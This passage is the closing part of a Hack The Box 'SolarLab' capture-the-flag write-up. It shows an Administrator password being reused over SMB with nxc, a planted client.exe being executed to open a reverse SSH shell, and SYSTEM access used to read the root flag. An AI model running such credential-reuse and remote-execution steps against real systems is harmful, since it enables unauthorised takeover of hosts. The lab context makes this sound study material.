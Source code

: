 ### Password reuse

The credential is valid

```bash
┌──(bravosec㉿fsociety)-[~/htb/SolarLab]
└─$ nxc smb $(pt get rhost) -u 'Administrator' -p 'ThisPasswordShouldDo!@'
SMB         10.129.119.197  445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.129.119.197  445    SOLARLAB         [+] solarlab\Administrator:ThisPasswordShouldDo!@ (Pwn3d!)
```

Start reverse ssh client

```bash
┌──(bravosec㉿fsociety)-[~/htb/SolarLab]
└─$ nxc smb $(pt get rhost) -u 'Administrator' -p 'ThisPasswordShouldDo!@' -x '\programdata\client.exe'
SMB         10.129.119.197  445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.129.119.197  445    SOLARLAB         [+] solarlab\Administrator:ThisPasswordShouldDo!@ (Pwn3d!)
```

Connect to the session

```bash
┌──(bravosec㉿fsociety)-[~/htb/SolarLab]
└─$ ssh -J 127.0.0.1:443 nt.authority.system.solarlab
Warning: Permanently added '[127.0.0.1]:443' (ED25519) to the list of known hosts.
Warning: Permanently added 'nt.authority.system.solarlab' (ED25519) to the list of known hosts.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32> cat C:\Users\Administrator\Desktop\root.txt
57f182299e78772461139e7ce052302c
```

# Additional
---
